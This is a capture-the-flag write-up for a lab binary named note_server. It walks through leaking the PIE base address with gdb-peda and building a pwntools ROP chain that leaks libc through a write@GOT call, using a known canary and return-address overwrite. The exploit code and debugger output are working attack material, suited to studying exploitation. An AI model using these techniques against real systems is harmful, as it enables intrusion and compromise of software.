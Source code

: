 
### Leak libc 

Now I know the memory space of the main program, but not the libc. I also know the canary and can overwrite the return address. I'll use a rop chain to leak a libc address, and then can calculate the addresses of any functions or strings in libc I want. In the program, it uses "write" to send data to the socket. I'll use a write call to send the GOT table address for the write function.

#### Program base Address:

Because PIE is enabled it means that even if my gadgets are in the main program, they still move around in memory.
I'll use my leaked return address (RIP) to find the offset of the program base. The return address I leak will always be as the same distance from the base into that memory space. So I can simply look at that address and the memory map, and calculate the offset.

```
gdb-peda$ x/3xg $rbp-0x8
0x7fffffff8fb8:	0xd0fe47edd3651300	0x00007fffffff90c0
0x7fffffff8fc8:	**0X0000555555554f54**
gdb-peda$ info proc mappings
process 31711
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      **0x555555554000**     0x555555556000     0x2000        0x0 /Lab/htb/Intense/note_server
      0x555555755000     0x555555756000     0x1000     0x1000 /Lab/htb/Intense/note_server
      0x555555756000     0x555555757000     0x1000     0x2000 /Lab/htb/Intense/note_server
      0x555555757000     0x555555778000    0x21000        0x0 [heap]
      0x7ffff7dd7000     0x7ffff7df9000    0x22000        0x0 /lib/x86_64-linux-gnu/libc-2.28.so
gdb-peda$ **p 0X0000555555554f54 - 0x0000555555554000**
**$3 = 0xf54**
```

Here our return address is **0X0000555555554f54** and the and base address of program is  **0x555555554000** so the offset  **0xf54**  And because that offset is always the same. I can calculate for any run that the base address will be the leaked return address minus **0xf54**

#### Code

```
base_address = rip - 0xf54 # 0x caught with the (rip - base addresse) For base address gdb-peda$ vmmap and   gdb-peda$ p 0X0000555555554f54 - 0x0000555555554000
```

#### Get Gadgets:

I'll need gadgets that allow me to set rdi, rsi, and rdx, as well as the GOT address for write to leak, and the PLT address for write to call. I'll get gadgets by typing rop at the gdb-peda$ prompt:

Firstly i tried to get gadgets using the python pwntools ROP class like:

```
def read_write_libc_fct_address(binary,canary,rbp,base_address):

   elf= ELF(binary, checksec=False)
   elf.address = base_address
   rop = ROP(elf)
   # create the rop gadgets representing : write(file_descriptot=4,write@GOT())  file_descriptor = 4 ( our client )
   rop.write(FILE_DESCRIPTOR,elf.got['write'])
   log.info('stage 1 ROP Chain :' + rop.dump())
   len_rop=len(rop.chain())
   ## try got write
   payload_fullbuff=put_payload_into_notebuffer(canary,rbp,rop.chain(),False)

   #Now index =1024, let's use CMD2 and define offset as 4 and use memcpy() to copy the canary rbp and rop into the end of the node[]
```